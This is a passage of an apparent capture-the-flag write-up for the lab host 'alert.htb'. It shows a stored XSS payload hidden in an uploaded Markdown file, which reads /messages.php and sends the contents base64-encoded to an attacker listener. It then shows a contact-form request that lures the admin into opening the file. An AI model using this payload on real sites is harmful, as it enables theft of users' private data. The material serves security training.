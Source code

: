 
Upload a MarkDown file with JavaScript embedded (XSS):

POST /visualizer.php HTTP/1.1
Host: alert.htb
Content-Length: 542
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://alert.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEnBs8udtB1yPBAGn
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://alert.htb/index.php?page=alert
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryEnBs8udtB1yPBAGn
Content-Disposition: form-data; name="file"; filename="ex3.md"
Content-Type: text/markdown

Hahaha
<script>
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", "http://alert.htb/messages.php",false ); // false for synchronous request
xmlHttp.send( );
var xmlHttp2 = new XMLHttpRequest();
xmlHttp2.open( "GET", "http://10.10.14.6:8000?suction="+btoa(xmlHttp.responseText),true ); // false for synchronous request
xmlHttp2.send( );
</script>

------WebKitFormBoundaryEnBs8udtB1yPBAGn--



Now you can forward it to the admin hoping they will click on the link

POST /contact.php HTTP/1.1
Host: alert.htb
Content-Length: 97
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://alert.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://alert.htb/index.php?page=contact
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

email=ddd%40ddd.com&message=http://alert.htb/visualizer.php?link_share=68104ed741eed8.10388805.md

